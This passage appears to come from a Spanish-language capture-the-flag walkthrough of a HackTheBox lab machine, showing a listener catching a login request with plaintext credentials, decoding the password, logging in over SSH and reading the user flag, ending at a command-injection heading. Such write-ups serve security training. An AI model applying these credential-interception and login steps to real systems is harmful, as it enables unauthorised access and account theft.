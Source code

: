 ~~~ bash
connect to [10.10.14.132] from (UNKNOWN) [10.10.11.66] 36078
POST /login HTTP/1.1
X-Real-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1,127.0.0.1
X-Forwarded-Proto: http,http
Content-Length: 168
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: SESSION=NTM1MTcxYWMtMzI4NC00YmIyLTg2OTAtYTk4ZjA2NDJlZDA3
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Forwarded: proto=http;host=furni.htb;for="127.0.0.1:42974"
X-Forwarded-Port: 80
X-Forwarded-Host: furni.htb
host: 10.10.14.132:8081

username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=2n6AUVgbZReFob8I-cHkPuIdoZBr-U6sq5PHk-tt2TMm7nf-7EzjZ2EpVyaokIk5y-zQDoZ-jPFbwH-BmvWjo9sJvQQQ2xWc
~~~

Basta con decodificar la contraseña con una herramienta de `URL Decode`

~~~ bash
miranda-wise:IL!veT0Be&BeT0L0ve
~~~


## Shell as `miranda-wise`

Las credenciales de miranda nos permiten conectarnos por `ssh` a la máquina víctima

~~~ bash
ssh miranda-wise@10.10.11.66 
miranda-wise@10.10.11.66\'s password:  

Last login: Sun Aug 31 19:33:48 2025 from 10.10.14.132
miranda-wise@eureka:~$ 
~~~

Ya podremos ver la flag del usuario sin privilegios

~~~ bash
miranda-wise@eureka:~$ export TERM=xterm # Limpiar la pantalla con Ctrl + L
miranda-wise@eureka:~$ cat user.txt 
dab...
~~~
<br>


# Escalada de Privilegios
---
## Command Injection - Bash `eq` Comparison
